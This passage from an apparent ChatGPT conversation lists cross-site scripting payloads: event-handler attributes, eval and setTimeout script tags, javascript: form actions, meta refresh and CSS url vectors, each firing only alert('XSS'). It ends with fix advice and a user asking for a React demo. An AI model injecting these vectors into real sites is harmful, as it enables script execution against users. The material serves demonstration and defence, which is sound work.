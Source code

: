 If an input field is vulnerable and directly inserted into the DOM:

<input type="text" value="XSS" onfocus="alert('XSS')">

Trigger it by clicking the input box.
4️⃣ JavaScript Object Execution

If the vulnerable page uses JavaScript eval() or setTimeout(), you can try:

<script>eval('alert("XSS")')</script>
<script>setTimeout("alert('XSS')", 1000)</script>

5️⃣ Using onmouseover

If you can inject into an element that supports onmouseover, try:

<div style="width:100px;height:100px;background:red" onmouseover="alert('XSS')">Hover me</div>

Move your mouse over the red box to trigger the alert.
6️⃣ Form Action Injection

If the site allows form submission to an injected URL:

<form action="javascript:alert('XSS')">
    <input type="submit" value="Click Me">
</form>

7️⃣ Meta Tag Auto-Redirect

If the page does not properly sanitize <meta> tags:

<meta http-equiv="refresh" content="0;url=javascript:alert('XSS')">

This will automatically execute JavaScript when the page loads.
8️⃣ CSS Injection for Stored XSS

If the page allows unsanitized CSS injection:

<style>*{background:url("javascript:alert('XSS')")}</style>

9️⃣ JavaScript Event Handler Injection

If you can inject into an attribute of a clickable element:

<button onclick="alert('XSS')">Click me</button>

🔬 Why Are Some Payloads Not Working?

    Some browsers block inline <script> execution but allow event-driven execution.
    CSP (Content Security Policy) may be restricting script execution.
    Some modern protections sanitize common <script> injections but still allow alternative vectors.

✅ How to Fix XSS?

    Always use .innerText instead of .innerHTML to prevent HTML execution.
    Use DOMPurify to clean user input.
    Apply a strong CSP header to block inline scripts.

Let me know if you need more advanced vectors or want to try something specific! 🚀
You said:
now in React, how would I make the same demo?
ChatGPT said:
